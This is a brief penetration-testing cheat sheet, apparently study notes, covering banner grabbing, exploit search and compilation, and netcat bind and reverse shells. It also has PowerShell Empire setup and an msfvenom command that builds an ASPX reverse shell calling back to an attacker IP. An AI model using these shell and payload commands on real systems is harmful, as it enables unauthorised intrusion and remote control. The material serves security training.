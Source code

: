 # 3.4 Exploitation

## Banner Grabbing
`nmap -sV --script=banner $ip`

`nc $ip $port`

`ls /usr/share/nmap/scripts | grep shellshock`


## Searching for exploits
`msf6> search xxxx`

`searchsploit xxxx`

`exploit-db.com`

`rapid7.com/db`

`search on google`

`search on github`

## Compile Exploits
`apt install mingw-w64`

`i686-w64-mingw32-gcc exploit.c -o exploit.exe`

`i686-w64-mingw32-gcc exploit.c -o exploit.exe -lws2_32` -> exploit for 32 bits

`gcc exploit.c -o exploit.exe`

## Bind and Reverse shell
`nc $ip $port <options>`

`nc $ip $port  -nv < text.txt` transfer a file

`nc $ip $port  -nv > text.txt` recieve a file

-> for windows - bind shell

`nc $ip $port  -nvlp 1234 -e cmd.exe` listener to connect to a target through cmd

`nc $ip $port  -nv` to connect to that listener through cmd

-> for linux - bind shell

`nc $ip $port  -nvlp 1234 -c /bin/bash/` listener to connect to a target through bash

`nc $ip $port  -nv` to connect to that listener through bash

-> reverse shell sheet cheat on github allThePayloads or on revshells.com

## Powershell Empire
```
apt install powershell-empire starkiller -y
powershell-empire server
powershell-empire client
msfvenom -p windows/shell/reverse_tcp LHOST=10.10.16.2 LPORT=1234 -f asp > shell.aspx
```
Note: if you do not get the banner from nmap try it manually with netcat `nc $ip $port`
